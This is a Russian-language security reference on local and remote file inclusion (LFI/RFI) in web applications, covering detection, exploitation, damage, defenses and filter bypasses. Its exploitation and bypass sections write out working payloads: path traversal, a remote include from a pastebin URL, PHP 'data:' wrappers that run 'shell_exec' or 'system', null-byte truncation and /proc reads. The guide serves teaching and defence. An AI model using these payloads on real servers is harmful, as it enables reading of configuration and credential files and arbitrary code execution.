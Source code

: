 

# уязвимость/атака

## Описание
Атака представляет из себя передачу неправильного имени файла в качестве параметра запроса. Она эксплуатирует недостаток валидации имен файлов, передаваемых в качестве параметра. Данная атака позволяет чтение/выполнение произвольного файла от имени сервера.


## Классификация
- **LFI (Local File Inclusion)** - чтение локального файла на сервере
- **RFI (Remote File Inclusion)** - исполнение удаленного файла или кода

## Условия
- ОС: любая
- Сервер: чтение файлов - любой, исполнение - позволяющий интерпретирование кода на лету.
- В коде есть функции включения/исполнения (`include` в php, `render` в ruby on rails, и т.д.) или возврат пользователю файла, имя которого передается в запросе.

## Детектирование
- Для выявления необходимо исследовать места, где в качестве параметров запроса имена файлов или конструкции, похожие на имена файлов.
-  Первым шагом является подстановка в качестве параметра имен фалов, часто встречающихся на серверах.
- Подставляются прямые ссылки на файлы и имен файлов без расширения.
- Проверяются особые протоколы сервера, например `data:` php.

## Эксплуатация
Пример уязвимого эндпоинта: `http://vulnerable?page=first`. В коде сервера встречается конструкция `include ($_GET['page'])`
1) При передачи параметра `first` будет выполнен код `include (first)`. Если файл содержит код на php он будет выполнен.
2) Есть возможность передать произвольное имя файла, не обязательно предназначенного для вывода пользователю.
3) При передаче параметра вида `page=../../../../../dir/file` есть возможность выхода за пределы стандартного каталога.
4)Есть возможность читать не только локальные, но и файлы из сети. Например при передаче `page=https://pastebin.com/raw/CzHLDP7F` (в данном файле содержится код `<?php phpinfo(); ?>`) будет выведена информация о сервере.
5) Можем передать код для исполнения напрямую, используя параметр вида `page=data:,<?php some_code ?>`
6) Исполнение shell-команды: `page=data:,<?php shell_exec(command) ?>`/`page=data:,<?php system(command) ?>` или аналогичный код в удаленном файле.

### Инструменты
- [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Ущерб
Возможна следующая эксплуатация данной уязвимости:
- Чтение файлов не предназначенных для чтения сторонними людьми (файлы конфигурации, логи сервера, исходный код продукта).
- Кража баз данных, если они находятся на той же машине.
- Возможность применения XSS.
- Выполнение произвольного кода на сервере.

## Защита
### Основные меры
- Исключение включение файлов, имена которых получены от пользователя.
- Фильтрация имен файлов по белому списку.

### Превентивные меры
- Фильтрация передаваемые имена файлов, так чтобы они могли находиться только в определенной локальной директории.
- Минимально необходимые права для пользователей веб-приложений.
- Запрет включения удаленных файлов и использования оберток php.

## Дополнительно
[https://nvisium.com/blog/2016/01/26/rails-dynamic-render-to-rce-cve-2016-0752.html](https://nvisium.com/blog/2016/01/26/rails-dynamic-render-to-rce-cve-2016-0752.html)

## Обход защиты
- Передача `%00` в конце параметра для отброса приписываемого окончания.
- Использование `data:;base64,base64_encoded_code` или аналогичной функциональности для обхода фильтров.
- Использование обрезания длинных имен [(информация)](https://xakep.ru/2009/09/17/49508/).
- Использование специальных файлов (/proc, con).
- Использование ошибок поиска файлов и коротких имен DOS. [(информация)](https://xakep.ru/2011/07/03/55787/).